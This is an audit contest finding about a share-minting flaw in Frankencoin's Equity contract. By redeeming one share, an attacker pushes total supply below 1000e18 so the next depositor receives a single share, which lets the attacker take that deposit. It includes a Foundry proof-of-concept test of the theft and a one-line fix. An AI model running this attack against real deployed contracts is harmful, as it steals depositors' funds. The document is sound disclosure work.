 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- primary issue
- satisfactory
- selected for report
- sponsor acknowledged
- M-03

# [Manipulation of total share amount might cause future depositors to lose their assets](https://github.com/code-423n4/2023-04-frankencoin-findings/issues/915) 

# Lines of code

https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Equity.sol#L266-L270


# Vulnerability details

## Bug Description

In the `Equity` contract, the `calculateSharesInternal()` function is used to determine the amount of shares minted whenever a user deposits Frankencoin:

[Equity.sol#L266-L270](https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Equity.sol#L266-L270)

```solidity
function calculateSharesInternal(uint256 capitalBefore, uint256 investment) internal view returns (uint256) {
    uint256 totalShares = totalSupply();
    uint256 newTotalShares = totalShares < 1000 * ONE_DEC18 ? 1000 * ONE_DEC18 : _mulD18(totalShares, _cubicRoot(_divD18(capitalBefore + investment, capitalBefore)));
    return newTotalShares - totalShares;
}
```

Note that the return value is the amount of shares minted to the depositor. 

Whenever the total amount of shares is less than `1000e18`, the depositor will receive `1000e18 - totalShares` shares, regardless of how much Frankencoin he has deposited. This functionality exists to mint `1000e18` shares to the first depositor.

However, this is a vulnerability as the total amount of shares can decrease below `1000e18` due to the `redeem()` function, which burns shares: 

[Equity.sol#L275-L278](https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Equity.sol#L275-L278)

```solidity
function redeem(address target, uint256 shares) public returns (uint256) {
    require(canRedeem(msg.sender));
    uint256 proceeds = calculateProceeds(shares);
    _burn(msg.sender, shares);
```

The following check in `calculateProceeds()` only ensures that `totalSupply()` is never below `1e18`:

[Equity.sol#L293](https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Equity.sol#L293)

```solidity
require(shares + ONE_DEC18 < totalShares, "too many shares"); // make sure there is always at least one share
```

As such, if the total amount of shares decreases below `1000e18`, the next depositor will receive `1000e18 - totalShares` shares instead of an amount of shares proportional to the amount of Frankencoin deposited. This could result in a loss or unfair gain of Frankencoin for the depositor.

## Impact

If the total amount of shares ever drops below `1000e18`, the next depositor will receive a disproportionate amount of shares, resulting in an unfair gain or loss of Frankencoin.

Moreover, by repeatedly redeeming shares, an attacker can force the total share amount remain below `1000e18`, causing all future depositors to lose most of their deposited Frankencoin.  

## Proof of Concept

Consider the following scenario:
- Alice deposits 1000 Frankencoin (`amount = 1000e18`), gaining `1000e18` shares in return.
- After 90 days, Alice is able to redeem her shares. 
- Alice calls `redeem()` with `shares = 1` to redeem 1 share:
  - The total amount of shares is now `1000e18 - 1`.
- Bob deposits 1000 Frankencoin (`amount = 1000e18`). In `calculateSharesInternal()`:
  - `totalShares < 1000 * ONE_DEC18` evalutes to true.
  - Bob receives `newTotalShares - totalShares = 1000e18 - (1000e18 - 1) = 1` shares.

Although Bob deposited 1000 Frankencoin, he received only 1 share in return. As such, all his deposited Frankencoin can be redeemed by Alice using her shares. Furthermore, Alice can cause the next depositor after Bob to also receive 1 share by redeeming 1 share, causing the total amount of shares to become `1000e18 - 1` again.

Note that the attack described above is possbile as long as an attacker has sufficient shares to decrease the total share amount below `1000e18`.

The following Foundry test demonstrates the scenario above:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../contracts/Frankencoin.sol";

contract ShareManipulation_POC is Test {
    Frankencoin zchf;
    Equity reserve;
    
    address ALICE = address(0x1);
    address BOB = address(0x2);

    function setUp() public {
        // Setup contracts
        zchf = new Frankencoin(10 days);
        reserve = Equity(address(zchf.reserve()));

        // Give both ALICE and BOB 1000 Frankencoin
        zchf.suggestMinter(address(this), 0, 0, "");
        zchf.mint(ALICE, 1000 ether);
        zchf.mint(BOB, 1000 ether);
    }

    function test_NextDepositorGetsOneShare() public {
        // ALICE deposits 1000 Frankencoin, getting 1000e18 shares
        vm.prank(ALICE);
        zchf.transferAndCall(address(reserve), 1000 ether, "");

        // Time passes until ALICE can redeem
        vm.roll(block.number + 90 * 7200);

        // ALICE redeems 1 share, leaving 1000e18 - 1 shares remaining
        vm.prank(ALICE);
        reserve.redeem(ALICE, 1);
        
        // BOB deposits 1000 Frankencoin, but gets only 1 share
        vm.prank(BOB);
        zchf.transferAndCall(address(reserve), 1000 ether, "");
        assertEq(reserve.balanceOf(BOB), 1);

        // All of BOB's deposited Frankencoin accrue to ALICE
        vm.startPrank(ALICE);
        reserve.redeem(ALICE, reserve.balanceOf(ALICE) - 1e18);
        assertGt(zchf.balanceOf(ALICE), 1999 ether);
    }
}
```

## Recommendation

As the total amount of shares will never be less than `1e18`, check if `totalShares` is less than `1e18` instead of `1000e18` in `calculateSharesInternal()`:

[Equity.sol#L266-L270](https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Equity.sol#L266-L270)

```diff
     function calculateSharesInternal(uint256 capitalBefore, uint256 investment) internal view returns (uint256) {
         uint256 totalShares = totalSupply();
-         uint256 newTotalShares = totalShares < 1000 * ONE_DEC18 ? 1000 * ONE_DEC18 : _mulD18(totalShares, _cubicRoot(_divD18(capitalBefore + investment, capitalBefore)));
+         uint256 newTotalShares = totalShares < ONE_DEC18 ? 1000 * ONE_DEC18 : _mulD18(totalShares, _cubicRoot(_divD18(capitalBefore + investment, capitalBefore)));
         return newTotalShares - totalShares;
     }
```

This would give `1000e18` shares to the initial depositor and ensure that subsequent depositors will never receive a disproportionate amount of shares.